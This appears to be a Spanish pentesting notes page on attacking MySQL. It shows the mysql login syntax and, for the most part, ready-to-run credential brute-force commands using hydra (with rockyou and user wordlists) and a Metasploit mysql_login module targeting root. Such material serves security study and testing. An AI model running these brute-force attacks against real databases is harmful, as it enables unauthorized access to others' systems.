 # MySQL

{% hint style="info" %}
Para hacer login en una base de datos con mysql, ejecutamos el siguiente comando:

```bash
mysql -h 192.168.1.12 -u usuario -ppassword
```

ATENCION!! En el último parámetro, pondremos `-p` seguido de la contraseña sin espacios
{% endhint %}

## Fuerza Bruta

{% hint style="success" %}
A la hora de emplear diccionarios se recomiendan los siguientes:

### Usuarios

```
/usr/share/wordlists/metasploit/unix_users.txt
```

### Contraseñas

```
/usr/share/wordlists/rockyou.txt
```
{% endhint %}

### Hydra

Para poder hacer fuerza bruta con hydra al servicio de bases de datos, se pueden dar varios casos, en el caso de que tengas el usuario pero no la contraseña, deberás de usar un diccionario en este aspecto, por lo que el comando sería el siguiente

```
hydra -l user -P passwords.txt mysql://127.0.0.1 -t 15
```

En este caso con el parámetro `-l` le indicamos que sabemos el usuario y con el parámetro `-P` le indicamos la ruta donde esta el diccionario de contraseñas.

{% hint style="warning" %}
Puede que el servicio MySQL no se encuentre en el puerto predefinido, en ese caso deberemos de especificar a hydra el puerto en el que está, esto se hace con el parámetro `-s`

```
hydra -l user -P passwords.txt mysql://127.0.0.1 -t 15 -s 2000
```
{% endhint %}

En el caso contrario de que no sepas el usuario pero si la contraseña, los parámetros querían así:

```
hydra -L users.txt -p Password123 mysql://127.0.0.1 -t 15
```

En este comando, le indicamos la ruta del diccionario de usuarios con el parámetro en mayúscula y una contraseña en concreto con el parámetro en minúscula. En el otro posible caso de que no tengamos ni la contraseña ni el usuario, pondremos los dos parámetros en mayúscula pasándole como valor la ruta del diccionario tanto de usuarios como de contraseñas.

```
hydra -L users.txt -P passwords.txt mysql://127.0.0.1 -t 15
```

{% hint style="info" %}
El con el parámetro`-t` le indicamos el número de hilos que queremos emplear
{% endhint %}

### Metasploit

Para hacer fuerza bruta con metasploit, usaremos el modulo "`auxiliary/scanner/mysql/mysql_login`", que configuraremos adaptandolo a nuestras necesidades, por ejemplo, en este caso, sabemos el usuario pero la contraseña:

```perl
msfconsole

use auxiliary/scanner/mysql/mysql_login

set RHOSTS 192.168.1.1

set USERNAME root

set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

set VERBOSE false

set STOP_ON_SUCCESS true

exploit
```

<figure><img src="../../.gitbook/assets/image (95).png" alt=""><figcaption></figcaption></figure>
